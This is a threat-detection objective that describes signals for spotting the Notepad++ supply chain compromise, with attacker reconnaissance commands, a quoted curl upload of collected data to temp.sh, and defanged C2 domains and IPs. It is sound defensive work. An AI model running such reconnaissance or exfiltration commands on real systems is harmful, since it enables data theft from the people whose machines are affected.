

# 🎯 Detect Notepad++ Supply Chain Compromise Activity

**🚩 Priority : `Critical`**

🚦 **TLP:CLEAR** ⚪ : Recipients can spread this to the world, there is no limit on disclosure.

🗡️ **ATT&CK Techniques** :  [T1195.002 : Supply Chain Compromise: Compromise Software Supply Chain](https://attack.mitre.org/techniques/T1195/002 'Adversaries may manipulate application software prior to receipt by a final consumer for the purpose of data or system compromise Supply chain comprom'), [T1082 : System Information Discovery](https://attack.mitre.org/techniques/T1082 'An adversary may attempt to get detailed information about the operating system and hardware, including version, patches, hotfixes, service packs, and'), [T1033 : System Owner/User Discovery](https://attack.mitre.org/techniques/T1033 'Adversaries may attempt to identify the primary user, currently logged in user, set of users that commonly uses a system, or whether a user is activel'), [T1057 : Process Discovery](https://attack.mitre.org/techniques/T1057 'Adversaries may attempt to get information about running processes on a system Information obtained could be used to gain an understanding of common s'), [T1049 : System Network Connections Discovery](https://attack.mitre.org/techniques/T1049 'Adversaries may attempt to get a listing of network connections to or from the compromised system they are currently accessing or from remote systems '), [T1574 : Hijack Execution Flow](https://attack.mitre.org/techniques/T1574 'Adversaries may execute their own malicious payloads by hijacking the way operating systems run programs Hijacking execution flow can be for the purpo'), [T1203 : Exploitation for Client Execution](https://attack.mitre.org/techniques/T1203 'Adversaries may exploit software vulnerabilities in client applications to execute code Vulnerabilities can exist in software due to unsecure coding p'), [T1105 : Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105 'Adversaries may transfer tools or other files from an external system into a compromised environment Tools or files may be copied from an external adv'), [T1071.001 : Application Layer Protocol: Web Protocols](https://attack.mitre.org/techniques/T1071/001 'Adversaries may communicate using application layer protocols associated with web traffic to avoid detectionnetwork filtering by blending in with exis'), [T1567 : Exfiltration Over Web Service](https://attack.mitre.org/techniques/T1567 'Adversaries may use an existing, legitimate external Web service to exfiltrate data rather than their primary command and control channel Popular Web ')

---

`🔑 UUID : 3e8b5d7f-9c2a-4f6e-8b1d-7a4c9e3f6b2d` **|** `🏷️ Version : 1` **|** `🗓️ Creation Date : 2026-02-09` **|** `🗓️ Last Modification : 2026-02-09` **|** `👩‍💻 Model author : None` **|** `👥 Contributors : None` **|** `Sharing Organisation : {'uuid': '56b0a0f0-b0bc-47d9-bb46-02f80ae2065a', 'name': 'EC DIGIT CSOC'}` **|** `🧱 Schema Identifier : dom::1.0`

## 💡 Objective

**🏷️ Type** : Threat - Alerts meant for detection cybersecurity threats, and which should eventually trigger Incident Response  

> This detection objective addresses the sophisticated supply chain compromise
> of Notepad++ update infrastructure that occurred between July and October 2025,
> affecting organizations across multiple sectors and geographic regions.
> 
> The attack involved compromised update servers distributing malicious NSIS
> installers through the legitimate GUP.exe updater, deploying three distinct
> infection chains with varying execution techniques including ProShow vulnerability
> exploitation, Lua interpreter abuse, and DLL side-loading.
> 
> Detection focuses on identifying the characteristic behaviors across all infection
> chains: suspicious NSIS installer execution from update processes, system
> reconnaissance command sequences, data exfiltration to legitimate web services
> (temp.sh), abuse of legitimate executables for malicious code execution, and
> communication with known Cobalt Strike C2 infrastructure.
> 
> Due to the critical nature of supply chain attacks and their potential for
> widespread impact, this objective is assigned Critical priority with High
> investment requirements for comprehensive detection coverage.
> 

**🎼 Composition** : Combined - All signals triggered for any entity can be grouped in a single signal. This may be extremely useful to identify pan-environment compromises.

> The detection strategy employs correlation across multiple behavioral signals
to identify Notepad++ supply chain compromise activity while minimizing false
positives from legitimate software operations.

Primary detection approach focuses on:

1. **Initial Delivery Indicators**: Monitoring NSIS installer behavior launched
   from Notepad++ update components (GUP.exe), including temporary directory
   creation patterns and installer execution from unusual locations.

2. **Discovery Phase Correlation**: Detecting sequences of system reconnaissance
   commands (whoami, tasklist, systeminfo, netstat) executed in close temporal
   proximity, particularly when originating from unusual parent processes or
   AppData subdirectories.

3. **Exfiltration Detection**: Identifying data uploads to temp.sh service and
   monitoring for suspicious User-Agent header patterns that may encode URLs
   to exfiltrated data.

4. **Execution Technique Indicators**: Detecting abuse of legitimate software
   (ProShow.exe, Lua interpreters, BluetoothService.exe) loaded from unusual
   AppData locations with suspicious accompanying files (load, alien.ini, log.dll).

5. **C2 Communication**: Network-based detection of communication with known
   malicious infrastructure domains and IP addresses associated with Cobalt
   Strike beacons.

Correlation rules should combine multiple signals across different attack phases
to achieve high-fidelity detection. For example, NSIS installer execution from
GUP.exe followed within 30 minutes by reconnaissance commands and data exfiltration
to temp.sh provides strong indicator of compromise.

The strategy balances host-based behavioral detection with network-based IOC
matching to provide defense-in-depth coverage across the attack lifecycle.

### 🌊 Related OpenTide Objects

**Threats**

| ☣️ Threat Vectors (9)                                                                                                                                                                                                                                                                                                                   |
|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| [ProShow vulnerability exploitation for payload delivery](../Threat%20Vectors/☣️%20ProShow%20vulnerability%20exploitation%20for%20payload%20delivery '## Executive SummaryThreat actors exploited a legacy vulnerability in ProShow software to achieve code execution and deliver malicious payloads This t...')                       |
| [Malicious NSIS installer deployment](../Threat%20Vectors/☣️%20Malicious%20NSIS%20installer%20deployment '## OverviewMalicious NSIS Nullsoft Scriptable Install System installers are being weaponized in supply chain attacks to deploy various payloads on vic...')                                                                   |
| [Registry autorun persistence from temporary folders](../Threat%20Vectors/☣️%20Registry%20autorun%20persistence%20from%20temporary%20folders '## OverviewThis threat vector describes a Windows persistence technique that combines twosuspicious behaviors dropping malicious executables into temp...')                               |
| [Cobalt Strike Beacon deployment via Metasploit downloader](../Threat%20Vectors/☣️%20Cobalt%20Strike%20Beacon%20deployment%20via%20Metasploit%20downloader '## Executive SummaryCobalt Strike Beacon was deployed as the final payload in all three infection chains of the Notepad supply chain attack, using Met...')                 |
| [Notepad++ supply chain attack](../Threat%20Vectors/☣️%20Notepad++%20supply%20chain%20attack '## Executive SummaryOn February 2, 2026, Notepad developers disclosed a critical supply chain compromise affecting their update infrastructure The att...')                                                                               |
| [Lua interpreter shellcode execution](../Threat%20Vectors/☣️%20Lua%20interpreter%20shellcode%20execution '## Executive SummaryLua interpreter shellcode execution is an evasion technique that leverages legitimate Lua scripting interpreters to execute malici...')                                                                   |
| [Chrysalis backdoor deployment via DLL sideloading](../Threat%20Vectors/☣️%20Chrysalis%20backdoor%20deployment%20via%20DLL%20sideloading '## Executive SummaryThe Chrysalis backdoor deployment represents the third and most recent infection chain Chain #3 discovered in the Notepad supply c...')                                   |
| [System reconnaissance via shell commands in supply chain attack](../Threat%20Vectors/☣️%20System%20reconnaissance%20via%20shell%20commands%20in%20supply%20chain%20attack '## Executive SummaryIn the Notepad supply chain attack investigation, Kasperskys KEDR Expert detection system identified systematic reconnaissance act...') |
| [LOLC2 service abuse via temp.sh](../Threat%20Vectors/☣️%20LOLC2%20service%20abuse%20via%20temp.sh '## Executive SummaryAttackers are leveraging tempsh, a legitimate temporary file-sharing service,as a Living-Off-the-Land Command and Control LOLC2 in...')                                                                         |

**Rules**

| 📡 Detection Objective Signals (5)                                                                                                                                                                                                                                                 | 🚨 Detection Rules    |
|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|:---------------------|
| [Cobalt Strike Beacon C2 Communication](#cobalt-strike-beacon-c2-communication 'Detects network communication to known Cobalt Strike C2 infrastructureassociated with the Notepad supply chain campaign All observed infectionchains u...')                                       | ❌ No Detection Rules |
| [Data Exfiltration to temp.sh Web Service](#data-exfiltration-to-temp.sh-web-service 'Detects data exfiltration to the tempsh temporary file sharing service,used by attackers to stage reconnaissance data and avoid direct C2 communicatio...')                                 | ❌ No Detection Rules |
| [NSIS Installer Deployment from Notepad++ Updater](#nsis-installer-deployment-from-notepad++-updater 'Detects the execution of NSIS Nullsoft Scriptable Install System installerslaunched by GUPexe, the legitimate Notepad update component The maliciousup...')                 | ❌ No Detection Rules |
| [Suspicious DLL Side-Loading and Exploit-Based Execution](#suspicious-dll-side-loading-and-exploit-based-execution 'Detects malicious execution via legitimate software abuse, including DLLside-loading and exploitation of vulnerable legitimate executables TheNotepad ...')   | ❌ No Detection Rules |
| [System Reconnaissance Commands Following Software Update](#system-reconnaissance-commands-following-software-update 'Detects sequences of system reconnaissance commands characteristic of theNotepad supply chain attack discovery phase Attackers executed combinationsof...') | ❌ No Detection Rules |

## 📡 Signals

### NSIS Installer Deployment from Notepad++ Updater

🪪 **UUID** : `8d4f6b2e-9c7a-4e1f-8b3d-6a9c5e7f2b4d`

> Detects the execution of NSIS (Nullsoft Scriptable Install System) installers
launched by GUP.exe, the legitimate Notepad++ update component. The malicious
update payloads are NSIS installers ranging from 140KB to 1MB that create
temporary directories and deploy malicious components.

Detection focuses on:
- GUP.exe spawning processes that create or access NSIS temporary directories
  (typically named $PLUGINSDIR or ns.tmp)
- Execution of update.exe, install.exe, or AutoUpdater.exe from unusual locations
- NSIS installer execution that subsequently creates suspicious subdirectories
  in %APPDATA% (ProShow, Adobe\Scripts, Bluetooth)
- File writes to these directories including executable files and supporting
  payloads (load, alien.ini, log.dll, etc.)

This signal provides early detection at the initial deployment phase before
reconnaissance or C2 establishment occurs.

**🔎 Data Visibility**

- **Availability** : Partial
- **Requirements** : `- Process execution logs with parent-child relationships
- Process command line arguments
- File creation events in user AppData directories
- NSIS installer detection (process name patterns, file signatures)

Preferred log sources:
- Sysmon Event IDs 1 (Process Create), 11 (File Create)
- EDR process telemetry
- Windows Event ID 4688 (Process Creation) with command line logging enabled
`

_💾 Possible logsources_

_❌ No logsources mentioned_

**🧲 Related Entities**

| Name         | Category                                  | Description                                                                                       |
|:-------------|:------------------------------------------|:--------------------------------------------------------------------------------------------------|
| Process      | **Host Entities** : Host Related Entities | Represents a running process on a host, including its attributes likeprocess ID and command line. |
| Command Line | **Host Entities** : Host Related Entities | Represents the command line arguments used to execute a process.                                  |
| File         | **Host Entities** : Host Related Entities | Represents a file on a system, including its name, path, and attributes.                          |
| Hostname     | **Host Entities** : Host Related Entities | Represents the name of a host or device in the network.                                           |

**⚠️ Detectors**

_❌ No detectors mentioned_

**🌐 Examples**

_❌ No examples mentioned_

### System Reconnaissance Commands Following Software Update

🪪 **UUID** : `2f7c9b4e-8d3a-4e6f-9b1c-7a5d8e2f4b6c`

> Detects sequences of system reconnaissance commands characteristic of the
Notepad++ supply chain attack discovery phase. Attackers executed combinations
of whoami, tasklist, systeminfo, and netstat -ano commands to profile victim
systems.

Detection criteria:
- Execution of 2 or more discovery commands within a 5-minute window
- Commands launched from suspicious parent processes or unusual working directories
- Specific command patterns observed in attack:
  * "cmd /c whoami&&tasklist > 1.txt" (Chain #1)
  * "cmd /c whoami&&tasklist&&systeminfo&&netstat -ano > a.txt" (Chain #2)
- Output redirection to files in suspicious AppData subdirectories:
  * %appdata%\ProShow\
  * %APPDATA%\Adobe\Scripts\
  * %appdata%\Bluetooth\

Behavioral correlation should consider:
- Temporal proximity to NSIS installer execution
- Parent process legitimacy (suspicious if from AppData)
- Working directory location
- Output file naming patterns (1.txt, a.txt)

**🔎 Data Visibility**

- **Availability** : Complete
- **Requirements** : `- Process execution logs with command line arguments
- Process parent-child relationships
- Process working directory information
- File creation events for output files
- Temporal correlation capability (sliding time windows)

Preferred log sources:
- Sysmon Event ID 1 (Process Create) with command line
- EDR process telemetry
- Windows Event ID 4688 with command line auditing
- PowerShell Script Block Logging (if PowerShell variants used)
`

_💾 Possible logsources_

_❌ No logsources mentioned_

**🧲 Related Entities**

| Name         | Category                                  | Description                                                                                       |
|:-------------|:------------------------------------------|:--------------------------------------------------------------------------------------------------|
| Process      | **Host Entities** : Host Related Entities | Represents a running process on a host, including its attributes likeprocess ID and command line. |
| Command Line | **Host Entities** : Host Related Entities | Represents the command line arguments used to execute a process.                                  |
| File         | **Host Entities** : Host Related Entities | Represents a file on a system, including its name, path, and attributes.                          |
| Hostname     | **Host Entities** : Host Related Entities | Represents the name of a host or device in the network.                                           |
| User         | **Host Entities** : Host Related Entities | Represents an individual user, including their identity and associatedattributes.                 |

**⚠️ Detectors**

_❌ No detectors mentioned_

**🌐 Examples**

_❌ No examples mentioned_

### Data Exfiltration to temp.sh Web Service

🪪 **UUID** : `6c9f3e7b-4d2a-4e8f-9b6d-3a7c5e1f8b4d`

> Detects data exfiltration to the temp.sh temporary file sharing service,
used by attackers to stage reconnaissance data and avoid direct C2 communication.
The technique involves uploading system information to temp.sh and transmitting
the resulting URL to C2 infrastructure via User-Agent headers.

Detection approaches:

Network-based:
- DNS queries for temp.sh or temp[.]sh domain
- HTTP/HTTPS POST requests to temp.sh with file upload content
- Outbound connections to temp.sh IP addresses
- Suspicious User-Agent headers containing temp.sh URLs
  (e.g., "Mozilla/5.0 (https://temp.sh/xxxxx)")

Host-based:
- Execution of curl.exe or similar HTTP tools with temp.sh in arguments
- Command lines containing: "curl", "temp.sh", and file paths
- Example: "curl -F file=@1.txt https://temp.sh"

Context enrichment:
- Temporal correlation with reconnaissance command execution
- Source file locations in suspicious AppData subdirectories
- Parent process analysis (suspicious if from AppData executables)

This signal is high severity due to confirmed data exfiltration activity
and direct linkage to the attack campaign.

**🔎 Data Visibility**

- **Availability** : Partial
- **Requirements** : `- DNS query logs
- HTTP/HTTPS proxy logs with URL and User-Agent headers
- Network connection logs
- Process execution logs with command line arguments
- EDR network telemetry

Preferred log sources:
- DNS server logs or endpoint DNS query logs
- Web proxy logs (Zscaler, Palo Alto, etc.)
- Firewall logs with HTTPS inspection
- Sysmon Event ID 1 (Process Create) and Event ID 3 (Network Connection)
- EDR network telemetry
`

_💾 Possible logsources_

_❌ No logsources mentioned_

**🧲 Related Entities**

| Name       | Category                                        | Description                                                                                        |
|:-----------|:------------------------------------------------|:---------------------------------------------------------------------------------------------------|
| Domain     | **Host Entities** : Host Related Entities       | Represents a domain name, including those used in network communicationsor as part of URLs.        |
| URL        | **Network Entities** : Network Related Entities | Represents a Uniform Resource Locator (URL), often used in web-basedattacks or phishing campaigns. |
| IP Address | **Network Entities** : Network Related Entities | Represents an IPv4 or IPv6 address associated with a host or networkconnection.                    |
| Process    | **Host Entities** : Host Related Entities       | Represents a running process on a host, including its attributes likeprocess ID and command line.  |
| Hostname   | **Host Entities** : Host Related Entities       | Represents the name of a host or device in the network.                                            |

**⚠️ Detectors**

_❌ No detectors mentioned_

**🌐 Examples**

_❌ No examples mentioned_

### Suspicious DLL Side-Loading and Exploit-Based Execution

🪪 **UUID** : `4e7b9d3f-6c2a-4e8f-9b1d-7a5c8e3f6b2d`

> Detects malicious execution via legitimate software abuse, including DLL
side-loading and exploitation of vulnerable legitimate executables. The
Notepad++ campaign employed three distinct execution techniques across
infection chains.

Detection signatures:

1. **ProShow Exploitation (Chain #1)**:
   - ProShow.exe execution from %appdata%\ProShow\
   - Presence of "load" file (no extension) in same directory
   - ProShow.exe not in legitimate program installation paths

2. **Lua Interpreter Abuse (Chain #2)**:
   - lua.exe or script.exe execution from %APPDATA%\Adobe\Scripts\
   - Presence of alien.ini file (compiled Lua script)
   - API call patterns: EnumWindowStationsW invoked by Lua interpreter
   - Memory allocation patterns consistent with shellcode loading

3. **BluetoothService DLL Side-Loading (Chain #3)**:
   - BluetoothService.exe execution from %appdata%\Bluetooth\
   - log.dll loaded from same directory (not from System32)
   - Presence of "BluetoothService" file without extension (encrypted payload)
   - Unsigned or suspicious DLL loaded by signed executable

Common indicators across all techniques:
- Legitimate executables running from unusual AppData subdirectories
- Accompanying suspicious files (load, alien.ini, log.dll, encrypted payloads)
- Process creation from AppData locations not typical for legitimate software
- Module load events showing DLLs loaded from non-standard paths

High severity due to active exploitation and malicious code execution.

**🔎 Data Visibility**

- **Availability** : Partial
- **Requirements** : `- Process execution logs with full file paths
- DLL/module load events
- File creation events in AppData directories
- Image signature verification logs
- API call monitoring (for advanced detection)
- Memory allocation events (EDR-specific)

Preferred log sources:
- Sysmon Event ID 1 (Process Create), Event ID 7 (Image/DLL Load),
  Event ID 11 (File Create)
- EDR process and module loading telemetry
- Windows Event ID 4688 (Process Creation)
- Windows Defender ATP / Microsoft Defender for Endpoint
`

_💾 Possible logsources_

_❌ No logsources mentioned_

**🧲 Related Entities**

| Name     | Category                                  | Description                                                                                                                                                              |
|:---------|:------------------------------------------|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Process  | **Host Entities** : Host Related Entities | Represents a running process on a host, including its attributes likeprocess ID and command line.                                                                        |
| File     | **Host Entities** : Host Related Entities | Represents a file on a system, including its name, path, and attributes.                                                                                                 |
| Software | **Host Entities** : Host Related Entities | Represents a software package, including its name, version, and installation source. Software packages are often analyzed to detect unauthorized or vulnerable software. |
| Hostname | **Host Entities** : Host Related Entities | Represents the name of a host or device in the network.                                                                                                                  |

**⚠️ Detectors**

_❌ No detectors mentioned_

**🌐 Examples**

_❌ No examples mentioned_

### Cobalt Strike Beacon C2 Communication

🪪 **UUID** : `9b6e4d8f-7c3a-4e2f-8b1d-6a9c5e7f3b4d`

> Detects network communication to known Cobalt Strike C2 infrastructure
associated with the Notepad++ supply chain campaign. All observed infection
chains ultimately deployed Cobalt Strike Beacon as the primary post-compromise
C2 implant.

Network indicators:

**Known C2 Domains**:
- cdncheck.it[.]com (Chain #1, July-August 2025)
- self-dns.it[.]com (Chain #2, September-October 2025)
- safe-dns.it[.]com (Chain #2, September-October 2025)
- api.wiresguard[.]com (Chain #3, October 2025)
- api.skycloudcenter[.]com (observed in later variants)

**Download Infrastructure IPs**:
- 45.77.31[.]210 (Cobalt Strike download: /users/admin)
- 45.76.155[.]202 (update.exe distribution)
- 45.32.144[.]255 (update.exe distribution)
- 95.179.213[.]0 (update.exe, install.exe, AutoUpdater.exe)

Detection criteria:
- DNS queries or resolutions for listed domains
- Outbound HTTPS (443) connections to listed domains/IPs
- HTTP GET requests to paths like /users/admin or /update/*
- TLS SNI fields matching C2 domains
- Beacon-like traffic patterns: periodic HTTPS requests with consistent intervals

**Behavioral indicators**:
- Regular HTTPS beaconing from endpoints at fixed intervals (jitter may be present)
- Outbound connections to domains mimicking legitimate services (CDN, DNS, VPN)
- POST requests with encrypted payloads following GET requests
- Network activity from processes executing from AppData directories

**Configuration artifacts**:
- XOR-encrypted Cobalt Strike configuration with key "CRAZY"
- Memory strings matching listed domains in suspicious processes

Critical severity due to confirmed C2 channel establishment indicating
active compromise and ongoing threat actor access to the environment.

**🔎 Data Visibility**

- **Availability** : Complete
- **Requirements** : `- DNS query logs with timestamps
- Network connection logs (firewall, proxy, NGFW)
- HTTP/HTTPS logs with URLs and TLS SNI information
- NetFlow or connection metadata for beacon detection
- EDR network telemetry
- IDS/IPS logs
- TLS certificate inspection logs

Preferred log sources:
- DNS server logs or endpoint DNS query logs
- Firewall logs (Palo Alto, Fortinet, Cisco ASA/FTD)
- Web proxy logs with HTTPS inspection
- Zeek/Bro network security monitor
- Sysmon Event ID 3 (Network Connection)
- IDS/IPS alerts (Snort, Suricata)
`

_💾 Possible logsources_

_❌ No logsources mentioned_

**🧲 Related Entities**

| Name               | Category                                        | Description                                                                                                                                                                                  |
|:-------------------|:------------------------------------------------|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Domain             | **Host Entities** : Host Related Entities       | Represents a domain name, including those used in network communicationsor as part of URLs.                                                                                                  |
| IP Address         | **Network Entities** : Network Related Entities | Represents an IPv4 or IPv6 address associated with a host or networkconnection.                                                                                                              |
| URL                | **Network Entities** : Network Related Entities | Represents a Uniform Resource Locator (URL), often used in web-basedattacks or phishing campaigns.                                                                                           |
| Network Connection | **Network Entities** : Network Related Entities | Represents a network connection, including source and destination IPs, ports, and protocols. This entity is critical for detecting suspicious or unauthorized communication between systems. |
| Process            | **Host Entities** : Host Related Entities       | Represents a running process on a host, including its attributes likeprocess ID and command line.                                                                                            |
| Hostname           | **Host Entities** : Host Related Entities       | Represents the name of a host or device in the network.                                                                                                                                      |

**⚠️ Detectors**

_❌ No detectors mentioned_

**🌐 Examples**

_❌ No examples mentioned_

## References

**🕊️ Publicly available resources**

- [_1_] https://securelist.com/notepad-supply-chain-attack/115382/
- [_2_] https://www.rapid7.com/blog/post/2026/02/03/notepad-plus-plus-supply-chain-compromise/

[1]: https://securelist.com/notepad-supply-chain-attack/115382/
[2]: https://www.rapid7.com/blog/post/2026/02/03/notepad-plus-plus-supply-chain-compromise/

